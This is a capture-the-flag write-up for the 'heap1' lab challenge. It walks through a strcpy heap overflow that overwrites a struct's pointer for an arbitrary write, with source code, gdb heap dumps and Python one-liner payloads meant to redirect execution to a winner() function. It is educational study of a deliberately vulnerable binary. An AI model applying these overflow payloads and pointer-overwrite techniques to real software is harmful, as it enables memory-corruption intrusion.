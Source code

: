 ```yaml
---
title:  "Writeup: heap1"
date:   2019-04-22 
categories: writeup
layout: post
author: Robaire Galliath
---
```


Before diving into heap1 it is important to understand what we have to work with. Looking at the source code it is clear that much like in heap0 we need to call the function `winner` to read the flag.

```c
void winner()
{
  char buffer[64];
  FILE *fp;

  printf("and we have a winner @ %d\n", time(NULL));

  fp = fopen("./flag.txt", "r");

  fgets(buffer, 64, (FILE*)fp);
  printf("flag: %s\n", buffer);
}
```
Of course looking at main, there is no direct way to call winner like there was in heap0.

```c
int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

What we do see in main is that some memory is being allocated on the heap. In total four items are malloc'd, two instances of the struct `internet` and two eight byte arrays. 

Lets break down exactly what is happening.

1. First the `internet` struct is malloc'd.

```c
struct internet {
  int priority;
  char *name;
};
```

```c
i1 = malloc(sizeof(struct internet));
```

This allocates at least eight bytes, four for the integer `priority` and another four to store the pointer to `name`.

2. Then the value of `priority` is set.

```c
i1->priority = 1;
```

3. Finally eight bytes are malloc'd, and the address of that chunk is stored in `name`.

```c
i1->name = malloc(8);
```

So what exactly does that look like in memory? I used the gef plugin for gdb to get a nice printout of the heap right after all four objects are malloc'd. 

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     00 00 00 00 00 00 00 00 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b028, size=0x10, flags=PREV_INUSE)
    [0x0804b028     02 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    ....8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     00 00 00 00 00 00 00 00 00 00 00 00 c1 0f 02 00    ................]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

There is a lot going on here so let's break it down by chunk.

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
```

This first chunk represents the first `internet` struct. It begins at address `0x804b008` and is sixteen bytes long. The first four bytes are the `priority` integer, and in this case it has been set to 1, `01 00 00 00`. The next four bytes, `18 b0 04 08`, is the pointer to `name`. Then there are eight extra bytes that store some metadata about the chunk, but that is not important and can be ignored.

```ruby
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     00 00 00 00 00 00 00 00 00 00 00 00 11 00 00 00    ................]
```

This second chunk stores the eight bytes that were malloc'd to store `name`. Notice that the address of this chunk is the same address that was stored in bytes five through eight of the previous chunk.

The remaining two chunks are structured the same as the first two, just with different values. 


After memory is allocated, the first two arguments to the program are copied into `name` using `strcopy`. Our exploit will rely on the fact that `strcopy` has no idea how many bytes to write and will readily overflow the buffer it is writing to.

```c
strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
```

But for now lets read in some simple inputs and see what happens. In this case heap1 was given `aaaaaaaa` and `bbbbbbbb` as command line arguments. Looking at the heap after the calls to `strcpy` we can clearly see the strings we provided as series of 61's and 62's.

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 00 00 00 00 11 00 00 00    aaaaaaaa........]
Chunk(addr=0x804b028, size=0x10, flags=PREV_INUSE)
    [0x0804b028     02 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    ....8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     62 62 62 62 62 62 62 62 00 00 00 00 c1 0f 02 00    bbbbbbbb........]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

It is important to understand what exactly is happening when `strcopy` is called. 

```c
strcpy(i1->name, argv[1]);
```

The address `strcpy` will write to is stored in i1. In this case it is `0x0804b018`. `strcpy` will then start writing bytes beginning at that address.

Remember how `strcpy` will write as many bytes as you tell it to? Let's see what happens when we pass it more than sixteen bytes (the total size of chunk 2).

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x804b028, size=0x61616160, flags=PREV_INUSE)
    [0x0804b028     61 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    a...8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     62 62 62 62 62 62 62 62 00 00 00 00 c1 0f 02 00    bbbbbbbb........]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

The seventeenth `a` got written into the chunk for `i2`. If we wrote a few more bytes we could overwrite the address stored in `i2` to point anywhere we want. Then the second call to `strcpy` will write to that new address instead of writing into chunk 4 like it should. This gives us the power to write what ever we want, where ever we want.

As an example lets use `python -c "print 'a'*20 + '\x10\x10\x10\x10'"` as our input.
```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x804b028, size=0x61616160, flags=PREV_INUSE)
    [0x0804b028     61 61 61 61 10 10 10 10 00 00 00 00 11 00 00 00    aaaa............]
```
Now the second call to `strcpy` will write our b's to address `0x10101010`.


If we know where the top of the stack is, we can now use this method to overwrite the return address so that when `main` exits, `winner` is called instead. We have used this technique several times already. Using gdb we can find out the address of `winner` is `0x804854b`. So we need to write that somewhere near the top of the stack. 

So our first arugment needs to overwrite the address stored in the second struct.
`python -c "print 'a'*20 + '\x??\x??\x??\x??'"`

And the second argument needs to be the address of `winner`.
`python -c "print '\x4b\x85\x04\x08'"`

(To make things a little easier you might want to write more than one copy of `0x804854b`.) 
